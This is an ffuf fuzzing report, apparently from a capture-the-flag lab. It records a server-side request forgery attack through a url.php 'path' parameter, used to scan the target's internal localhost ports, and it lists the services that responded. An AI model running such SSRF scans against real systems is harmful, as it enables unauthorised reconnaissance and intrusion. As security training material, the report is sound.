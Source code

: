 # FFUF Report

  Command line : `ffuf -u http://10.129.1.117:60000/url.php?path=http://127.0.0.1:FUZZ -fs 2 -w allPortNumbers.txt -o ffuf-allports.md -of md`
  Time: 2023-02-02T20:14:26Z

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | 110 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:110 |  | 111 | 200 | 187 | 16 | 18 | text/html; charset=UTF-8 | 413.002028ms |  |
  | 90 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:90 |  | 91 | 200 | 156 | 10 | 12 | text/html; charset=UTF-8 | 570.961175ms |  |
  | 320 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:320 |  | 321 | 200 | 1232 | 93 | 27 | text/html; charset=UTF-8 | 56.159592ms |  |
  | 200 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:200 |  | 201 | 200 | 22 | 2 | 4 | text/html; charset=UTF-8 | 812.076902ms |  |
  | 22 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:22 |  | 23 | 200 | 62 | 3 | 5 | text/html; charset=UTF-8 | 4.317040875s |  |
  | 888 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:888 |  | 889 | 200 | 3955 | 449 | 79 | text/html; charset=UTF-8 | 174.80784ms |  |
  | 3306 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:3306 |  | 3307 | 200 | 123 | 5 | 3 | text/html; charset=UTF-8 | 166.126252ms |  |
  | 4444 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:4444 |  | 4445 | 200 | 613 | 18 | 19 | text/html; charset=UTF-8 | 450.17469ms |  |
  | 8080 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:8080 |  | 8081 | 200 | 994 | 47 | 3 | text/html; charset=UTF-8 | 131.963166ms |  |
  | 60000 | http://10.129.1.117:60000/url.php?path=http://127.0.0.1:60000 |  | 60001 | 200 | 1171 | 226 | 79 | text/html; charset=UTF-8 | 119.867292ms |  |
  